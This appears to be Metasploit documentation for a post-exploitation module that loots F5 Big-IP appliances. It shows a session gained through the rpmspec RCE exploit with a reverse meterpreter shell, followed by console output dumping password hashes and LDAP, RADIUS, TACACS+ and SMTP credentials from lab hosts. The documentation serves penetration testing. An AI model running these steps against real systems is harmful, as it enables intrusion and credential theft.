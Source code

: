 ## Vulnerable Application

The application is F5 Big-IP, and I don't think the versions matters but I
tested on version 17.0.0.1. It can be downloaded as a VMWare image for free
(you have to create an account) from https://downloads.f5.com. You can register
for a free 30-day trial if you like, but it's not required to test this.

Boot the VM and set an admin password by logging in with the default credentials
(admin / admin). You'll need that password.

## Verification Steps

1. Install the application
2. Start `msfconsole`
3. Do: Get any session somehow (`exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800` works well on 17.0.0.1 and earlier, or just use `msfvenom` w/ a Linux payload)
4. Do: `use post/linux/gather/f5_loot_mcp`
5. Do `set SESSION <sessionid>`
6. Do: `run`
7. You should get the info

## Options

### GATHER_HASHES

If `true`, read a list of local users and passwords (`userdb_entry` values) from mcp.

Default: true

### GATHER_SERVICE_PASSWORDS

If `true`, read upstream service passwords (active directory, LDAP, etc) from different parts of mcp.

Default: true

### GATHER_DB_VARIABLES

If `true`, read configuration information from mcp (note that this is slow).

Default: false (due to the speed)

## Scenarios

### F5 Big-IP 17.0.0.1 with a root session

First, get a non-root session however you can. I used the rpmspec vuln:

```
msf > use exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set HttpPassword mybigtestpassword
HttpPassword => iagotestbigip
msf exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set RHOST 10.0.0.162
RHOST => 10.0.0.162
msf exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set LHOST 10.0.0.179
LHOST => 10.0.0.179
msf exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (40168 bytes) to 10.0.0.162
[+] Deleted /var/config/rest/node/tmp/708677fa-5b30-43e6-9ce3-d84046e9f6e9.spec
[+] Deleted /var/config/rest/node/tmp/RPMS/noarch/yE15kZeAwp-1.6.1-7.4.4.noarch.rpm
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.162:36124) at 2022-11-14 16:12:04 -0800

meterpreter > bg
```

Then just use the module, set the SESSION, and run it:

```
msf exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > use post/linux/gather/f5_loot_mcp
msf post(linux/gather/f5_loot_mcp) > set SESSION 1
SESSION => 1
msf post(linux/gather/f5_loot_mcp) > set VERBOSE true
VERBOSE => true
msf post(linux/gather/f5_loot_mcp) > show options

Module options (post/linux/gather/f5_loot_mcp):

   Name                       Current Setting  Required  Description
   ----                       ---------------  --------  -----------
   GATHER_DB_VARIABLES        false            yes       Gather database variables (warning: slow)
   GATHER_HASHES              true             yes       Gather password hashes from mcp
   GATHER_UPSTREAM_PASSWORDS  true             yes       Gather upstream passwords (ie, LDAP, AD, RADIUS, etc) from mcp
   SESSION                    1                yes       The session to run this module on


View the full module info with the info, or info -d command.

msf post(linux/gather/f5_loot_mcp) > run

[*] Gathering users and password hashes from MCP
[+] admin:$6$Rvvp3001$4fGV5Pb2gf9rbiV78KCbdbGhfdwsFL0Kt1BR3IIytgb.2aXCpJG0xC2.JDzRvpAjTbIrvBt7YHi2j0mh.ww9i1
[+] f5hubblelcdadmin:yJXc4uXccfpSrdxcvZIjYT7clhNMUPJG
[+] root:$6$leOcJhIk$pY9xDy1lvacvJzIYM0RCgJ3laTppP2jFjsNek1AbFddYQWEuFMek51K5cyg5BU3pYMhTGQoWgDr0gocIIyMoc1
[*] Gathering upstream passwords from MCP
[*] Trying to fetch LDAP / Active Directory configuration
[+] dc.msflab.local:636   - ldaps: 'smcintyre:Password1!'
[*] Trying to fetch Radius configuration
[+] 192.168.159.12:1812   - radius: ':radiussecret'
[+] 192.168.159.13:1812   - radius: ':radiusbackup'
[*] Trying to fetch TACACS+ configuration
[+] 192.168.159.200:49    - tacacs+: ':tacaspassword'
[*] Trying to fetch SMTP configuration
[+] 192.168.159.128:25    - smtp: 'alice:secretpassword'
[*] Post module execution completed
```

The module logs information to the Metasploit database (when connected):

```
msf post(linux/gather/f5_loot_mcp) > creds
Credentials
===========

host             origin           service            public            private                                                                                              realm  private_type        JtR Format
----             ------           -------            ------            -------                                                                                              -----  ------------        ----------
                 192.168.159.119                     smcintyre         Password1!                                                                                                  Password            
                 192.168.159.119                     admin             $6$Rvvp3001$4fGV5Pb2gf9rbiV78KCbdbGhfdwsFL0Kt1BR3IIytgb.2aXCpJG0xC2.JDzRvpAjTbIrvBt7YHi (TRUNCATED)         Nonreplayable hash  sha512,crypt
                 192.168.159.119                     f5hubblelcdadmin  yJXc4uXccfpSrdxcvZIjYT7clhNMUPJG                                                                            Nonreplayable hash  
                 192.168.159.119                     root              $6$leOcJhIk$pY9xDy1lvacvJzIYM0RCgJ3laTppP2jFjsNek1AbFddYQWEuFMek51K5cyg5BU3pYMhTGQoWgDr (TRUNCATED)         Nonreplayable hash  sha512,crypt
192.168.159.12   192.168.159.119  1812/tcp (radius)                    radiussecret                                                                                                Password            
192.168.159.13   192.168.159.119  1812/tcp (radius)                    radiusbackup                                                                                                Password            
192.168.159.128  192.168.159.119  25/tcp (smtp)      alice             secretpassword                                                                                              Password            
192.168.159.200  192.168.159.119  49/tcp (tacacs+)                     tacaspassword                                                                                               Password            

msf post(linux/gather/f5_loot_mcp) > services
Services
========

host             port  proto  name     state  info
----             ----  -----  ----     -----  ----
192.168.159.12   1812  tcp    radius   open
192.168.159.13   1812  tcp    radius   open
192.168.159.128  25    tcp    smtp     open
192.168.159.200  49    tcp    tacacs+  open

msf post(linux/gather/f5_loot_mcp) >
```
